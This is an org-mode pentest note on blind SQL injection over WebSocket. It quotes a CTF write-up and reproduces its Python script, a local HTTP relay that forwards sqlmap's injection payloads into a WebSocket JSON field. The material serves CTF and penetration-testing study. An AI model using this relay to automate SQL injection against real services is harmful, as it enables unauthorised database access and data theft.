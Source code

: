 :PROPERTIES:
:ID:       61eb9f35-f735-4b5f-a028-0b2fd6ced177
:END:
#+title: SQL Injection
#+filetags: :webSocket:blindSQL:sqli:pentest:
#+hugo_base_dir:/home/kdb/Documents/kdbed/kdbed.github.io.bak



* SQL Injection


** SQLi - websocket

[[https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html][rayhan0x01 blind sql injection via websocket]]

From the above post

"If you didn't know, the main difference between HTTP and WebSocket is that HTTP is built on a request-response model whereas WebSocket is like a Socket connection where both client and server can send data anytime asynchronously. So you can't repeat the requests made in WebSocket as you would normally do for HTTP Requests in BurpSuite."


Interact synchronously with websocket in order to, eg, use sqlmap:

Script from rayhan0x01's post:

#+begin_src python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False

			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
#+end_src

